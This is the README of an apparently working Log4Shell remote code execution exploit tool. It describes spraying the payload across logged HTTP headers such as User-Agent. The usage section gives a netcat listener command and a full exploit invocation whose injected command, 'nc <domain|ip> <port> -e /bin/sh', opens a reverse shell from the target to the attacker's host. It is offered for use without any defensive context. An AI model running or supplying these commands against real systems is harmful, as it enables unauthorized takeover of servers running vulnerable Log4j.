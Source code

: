 ## Log4Shell RCE Exploit 

[![asciicast](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj.svg)](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj)

fully independent exploit does not require any 3rd party binaries.
The exploit spraying the payload to all possible logged HTTP Headers such as `X-Forwarding , Server-IP , User-Agent` 
### Usage
reverse shell receiver
```
nc -lvp <port>
```

exploit execution
```shell
python main.py -i lhost -u http://target:targetport -c "nc <domain|ip> <port> -e /bin/sh" -p lhttp_port -l lldap_port
 ```


### Requirements 
- java-8-openjdk
- pip install -r requirements.txt
- python3.6+
